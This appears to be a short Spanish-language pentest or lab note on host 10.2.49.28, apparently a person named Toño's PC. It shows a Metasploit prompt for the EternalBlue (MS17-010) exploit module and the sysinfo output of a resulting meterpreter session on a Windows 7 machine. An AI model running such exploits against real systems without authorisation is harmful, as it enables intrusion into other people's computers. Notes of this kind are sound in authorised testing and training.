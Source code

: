 # 10.2.49.28

Al parecer es la PC de Toño 

msf6 exploit(windows/smb/ms17_010_eternalblue) > 


meterpreter > sysinfo
Computer        : TARTARO
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : es_MX
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >